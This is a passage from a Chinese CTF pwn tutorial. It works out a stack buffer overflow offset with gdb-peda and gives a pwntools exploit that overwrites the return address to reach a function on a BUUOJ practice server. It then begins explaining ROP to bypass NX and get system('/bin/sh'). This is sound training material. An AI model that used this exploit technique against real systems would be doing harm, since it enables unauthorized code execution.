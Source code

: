 ![](/CTF/v_images/20200515105718396_1643374087.png)
查看`A(AADAA;`的偏移量:

```
gdb-peda$ pattern offset A(AADAA
A(AADAA found at offset: 23
```

那么我们就可以知道`ret`距离输入的偏移量为 23, 那么只需发送`23-8`(64 位程序 ret 存储 8 个字节，在 ubuntu18.04 中，使用这个方式进行 ret 补齐。在其他系统中可以直接发送`23`个字符覆盖)个任意字符+fun 地址即可, payload:

```python
from pwn import *
context.update(arch = 'amd64', os = 'linux', timeout = 1)	#初始化上下文环境，主要是系统、架构和读取超时时间
io = remote('node3.buuoj.cn', 29064)	#此处的IP地址和端口需要根据目标修改
# io = process('./pwn1')
system_addr = 0x401186  #函数fun()的地址
payload = ''
payload += 'A'*15 + p64(system_addr)			#使用15个任意字符填充，在其他系统中需要多加8个字符
io.sendline(payload)			#向程序输入payload，注意使用sendline()或者send()的数据末尾加上回车'\n'
io.interactive()
```

## 3. ROP 方式绕过 NX 保护

### 3.1. 原理

当程序开启 NX 保护时，我们传入的 shellcode 无法在内存页中执行。这时我们需要在汇编中找到一些“小片段（gadget）”，并跳转利用之。

- 常规 ROP 做题思路：  
  通过 ROP 泄漏 libc 的 address(如 puts_got)，计算 system 地址，然后返回到一个可以重现触发漏洞的位置(如 main)，再次触发漏洞，通过 ROP 调用 system(“/bin/sh”)。  
  这里选择泄露 puts 函数的地址，puts 函数的地址保存在 got 表中，而 got 表由 plt 表可以查找到，如下图所示：  
  ![](/CTF/v_images/20200525110924611_2032383569.png)
